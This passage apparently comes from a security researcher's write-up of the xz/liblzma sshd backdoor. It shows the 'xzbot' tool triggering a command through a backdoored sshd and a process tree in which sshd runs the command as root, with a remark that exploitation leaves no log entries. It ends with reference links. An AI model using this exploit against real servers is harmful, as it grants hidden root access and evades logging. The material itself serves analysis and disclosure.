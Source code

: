 ```
foo         1051    1050  0 18:51 pts/1    00:00:00          \_ -bash
```


# backdoor process tree

```
$ xzbot -cmd 'sleep 60'
$ ps -ef --forest
root         765       1  0 17:58 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root         941     765  4 18:04 ?        00:00:00  \_ sshd: root [priv]
sshd         942     941  0 18:04 ?        00:00:00      \_ sshd: root [net]
root         943     941  0 18:04 ?        00:00:00      \_ sh -c sleep 60
root         944     943  0 18:04 ?        00:00:00          \_ sleep 60
Note: successful exploitation does not generate any INFO or higher log entries.
```


References
https://www.openwall.com/lists/oss-security/2024/03/29/4
https://gist.github.com/smx-smx/a6112d54777845d389bd7126d6e9f504
https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
https://gist.github.com/keeganryan/a6c22e1045e67c17e88a606dfdf95ae4

##
##
